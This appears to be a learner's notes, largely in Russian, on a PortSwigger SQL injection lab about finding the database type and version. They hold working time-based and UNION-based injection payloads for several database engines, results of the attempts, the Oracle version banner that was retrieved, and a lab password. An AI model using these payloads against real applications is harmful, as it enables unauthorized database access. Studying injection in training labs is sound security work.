

https://portswigger.net/web-security/sql-injection/examining-the-database
# определение типа бд

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.


```c
|Oracle|               SELECT banner FROM v$version 
|Oracle|               SELECT version FROM v$instance 
|Microsoft|         SELECT @@version   
|PostgreSQL|     SELECT version()       
|MySQL|              SELECT @@version  
```       


ПОПРОБОВАЛ ВСЕ ВАРИАНТЫ ВЫШЕ на все запросы ответ 500 с ошибкой просто

ниже пробовал значения из таблицы:

помним - что для вывода данных нужно выводить в столбце и в типе стринг
поэтому просто так не вывести данные! сперва узнать число столбцов через order by
или юнион селект null,null...

----------
изучение бд = тип + версия + таблицы + столбцы в таблицах

# # querying the database type and version on Oracle

```sql СПЕРВА ТЕСТИМ ПЕРВЫЕ ВАРИАНТЫ 
-------------------------------------------------------------------
//🟣🟣🟣 SQLite
'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB(100000000))))+ELSE+0+END)=1-- нет

20%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN LIKE(%27ABCDEFG%27, UPPER(HEX(RANDOMBLOB(100000000)))) ELSE 0 END)=1%2d%2d    пропустил но не выполнился запрос

----- 
'||LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000))))--
'||(SELECT randomblob(100000000))--
'||(SELECT COUNT(*) FROM sqlite_master a,sqlite_master b,sqlite_master c)--
-------------------------------------------------------------------
'//🟣🟣🟣 Oracle
' AND (SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(10) ELSE 0 END FROM dual)=0--    нет


%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(10) ELSE 0 END FROM dual)=0%2d%2d    пропустил но не выполнился запрос 
-----
'||DBMS_LOCK.SLEEP(10)-- нет
'||(SELECT COUNT(*) FROM all_objects a,all_objects b,all_objects c) FROM dual--
-------------------------------------------------------------------
''//🟣🟣🟣Microsoft SQL Server
' AND 1=(SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT COUNT(*) FROM sys.objects o1, sys.objects o2, sys.objects o3, sys.objects o4, sys.objects o5, sys.objects o6) END)--


-----
%27||WAITFOR DELAY '0:0:10'--

2%27%7c%7c WAITFOR DELAY %270:0:10%27%2d%2d  пропустил но не выполнился запрос  

'||(SELECT COUNT(*) FROM sys.objects a,sys.objects b,sys.objects c)--
-------------------------------------------------------------------
'''//🟣🟣🟣MySQL / MariaDB
' AND (SELECT IF(1=1, SLEEP(10), 'a'))='a'--

%27 %61%6e%64 (%53%45%4c%45%43%54 IF(1=1, SLEEP(10), %27a%27))=%27a%27%2d%2d      пропустил но не выполнился запрос  
-----
'||sleep(10)--
'||BENCHMARK(10000000,MD5('test'))--
'||IF(1=1,SLEEP(10),0)--
-------------------------------------------------------------------
//🟣🟣🟣PostgreSQL
сработал этот в этой лабе
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) IS NOT NULL--

%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) IS NOT NULL%2d%2d      пропустил но не выполнился запрос  

-----
'||pg_sleep(10)-- 
'||(SELECT COUNT(*) FROM generate_series(1,10000000))--
-------------------------------------------------------------------
```

потом потпробовал запрос классический 
определил что 2 столбца
```sql
'ORDER+BY+2--
```

потом  изучаю типы для вывода
```sql
'UNION+SELECT+NULL,+NULL+FROM+DUAL--
```

gпервый столбец стринт - подходит
```sql
'UNION+SELECT+'f',+NULL+FROM+DUAL--
```

(вывел f) в ответе





```


теперь нужно вывести инфу о типе бд

```sql
select+version+from+v$instance
SELECT+banner+FROM+v$version 

'UNION+SELECT+version+from+v$instance,+NULL+FROM+DUAL-- 500 ошибка
'UNION+SELECT+banner+FROM+v$version,+NULL+FROM+DUAL-- 500ошбка

'UNION+SELECT+v$version,+NULL+FROM+DUAL-- 500 ошибка
'UNION+SELECT+version,+NULL+FROM+DUAL--     500 ошибка
banner FROM v$version


'UNION+SELECT+'banner+FROM+v$version',+NULL+FROM+DUAL-- ответ 200
но вывелась только строка banner FROM v$version

' UNION SELECT banner, NULL FROM v$version--
```
успех !
```sql
🟢'UNION+SELECT+banner,+NULL+FROM+v$version-- 
```
в ответе: TNS for Linux: Version 11.2.0.2.0 - Production

```sql
🟢 'UNION+ALL+SELECT+banner,+NULL+FROM+v$version--
```
ответ
```http
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
CORE	11.2.0.2.0	Production
TNS for Linux: Version 11.2.0.2.0 - Production
NLSRTL Version 11.2.0.2.0 - Production
```

ВЫПОЛНЕНО! 

```sql
'UNION+ALL+SELECT+banner,+NULL+FROM+v$version-- 
```
вывело все сразу!

```sql
'UNION+SELECT+banner,+NULL+FROM+v$version-- 
```
вывело только линукс!

==ALL было ключевое==

вывод, слип не работал но сработал, но сработал  `'order+by+1--`

пароль  - wWigefieivj